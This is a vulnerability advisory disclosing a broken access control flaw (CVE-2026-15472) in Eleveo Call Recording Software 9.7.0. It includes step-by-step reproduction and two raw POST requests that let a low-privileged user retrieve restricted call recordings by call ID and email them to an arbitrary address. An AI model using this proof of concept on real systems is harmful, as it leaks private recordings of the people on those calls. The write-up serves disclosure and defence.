







# Eleveo Call Recording Software 9.7.0 composeEmailAction.do Improper Authorization

> - https://vuldb.com/vuln/377777
> - https://vuldb.com/submit/797465
> - https://www.cve.org/CVERecord?id=CVE-2026-15472

## Timeline

- 10/3/2026 - Initial contact with the vendor
- 14/3/2026 - A second attempt was made to contact the vendor; however, no response was received
- 5/4/2026 - The vulnerability was submitted to VulnDB for CVE assignment.
- 11/7/2026 - The CVE has been assigned and published.

## Software Details

| Key              | Value                                          |
| ---------------- | ---------------------------------------------- |
| Vendor Name      | Eleveo                                         |
| Software Name    | Call Recording Software                        |
| Software URL     | https://www.eleveo.com/call-recording-software |
| Affected Version | 9.7.0                                          |

## Description

Multiple Broken Access Control vulnerabilities in Eleveo Call Recording 9.7.0 allow low-privileged authenticated users to bypass administrator-defined access filters and retrieve restricted call details via /callrec/composeEmailAction.do and /callrec/sendEmailAction.do endpoints. Although administrators can configure filters to limit which call recordings a user can access, the backend does not properly enforce these restrictions when processing email send requests. By manipulating these endpoints, a user can retrieve information about recordings that should be inaccessible according to the applied filters. The functionality also allows the user to send the recording details and associated audio attachments to arbitrary email addresses.

## Implications

- Exposure of restricted call recordings, allowing users to bypass administrator-defined filters and access call details that should be unavailable to them.
- Unauthorized distribution of call recordings, including audio attachments, by sending the retrieved data to arbitrary email recipients.

## Vulnerability Type

Broken Access Control / Improper Authorization

## Steps to Reproduce

1. Login as an **admin** user, then navigate to **Users**
2. Create a filter for the target user that will not show any recorded calls. For example, set the from date to a date without any recordings




3. Login as the restricted user, and navigate to **Recorded Calls**. Observe that no call recordings are returned, and the header indicates limited access



4. Extract the token from the HTML elements



5. Navigate to https://example.local/callrec/composeEmailAction.do
6. Using Burp Suite, change the request method to **POST**, and set the request body as follows. Ensure the **id_calls** parameter corresponds to the call ID to be accessed. Note that call IDs are incremented

```http
org.apache.struts.taglib.html.TOKEN=<TOKEN>&id_calls=305
```

```http
POST /callrec/composeEmailAction.do HTTP/1.1
Host: example.local
Cookie: DWRSESSIONID=***TRUNCATED***; JSESSIONID=***TRUNCATED***
Sec-Ch-Ua: "Not:A-Brand";v="99", "Microsoft Edge";v="145", "Chromium";v="145"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36 Edg/145.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 81

org.apache.struts.taglib.html.TOKEN=***TRUNCATED***&id_calls=305
```



7. The compose email screen will open showing start date, caller, calling numbers, and the attached media file. Enter a controlled email address, then click **Send**



8. Observe that the request to **/callrec/sendEmailAction.do** is triggered and the UI indicates that the email was sent successfully.

```http
POST /callrec/sendEmailAction.do HTTP/1.1
Host: example.local
Cookie: DWRSESSIONID=***TRUNCATED***; JSESSIONID=***TRUNCATED***
Content-Length: 136
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Microsoft Edge";v="145", "Chromium";v="145"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://example.local
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36 Edg/145.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://example.local/callrec/composeEmailAction.do
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive

org.apache.struts.taglib.html.TOKEN=***TRUNCATED***&file%5B0%5D.length=4&id=308&addresses=oelshopky%40email.com&body=
```



9. Check the email inbox and confirm that the call information and recording were sent, despite the user not having access to the recording

